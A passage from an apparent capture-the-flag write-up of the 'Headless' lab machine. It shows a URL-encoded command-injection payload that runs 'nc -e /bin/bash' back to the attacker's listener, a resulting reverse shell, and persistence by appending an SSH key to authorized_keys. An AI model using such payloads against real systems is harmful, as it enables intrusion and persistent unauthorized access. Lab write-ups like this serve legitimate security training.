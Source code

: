 ```
# starting listener
$ nc -lvnp 6969
listening on [any] 6969 ...

# POST request
POST /dashboard HTTP/1.1
Host: headless.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://headless.htb:5000
Connection: close
Referer: http://headless.htb:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=%3b%6e%63%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%20%31%30%2e%31%30%2e%31%34%2e%33%20%36%39%36%39%3b

# receiving reverse shellc
$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.8] 42196
whoami
dvir
```

Now we can add our public key to `/home/dvir/.ssh/autorized_keys` and log in using SSH to get an interactive SHELL.

```
# our terminal
cat ~/.ssh/key.pub
....KEY-STRING....

# dvir reverse shell
echo "....KEY-STRING...." >> /home/dvir/.ssh/authorized_keys

# our terminal
ssh dvir@headless.htb
Linux headless 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
-bash-5.2$ cat /home/dvir/user.txt
SECRETSECRETSECRETSECRET
```
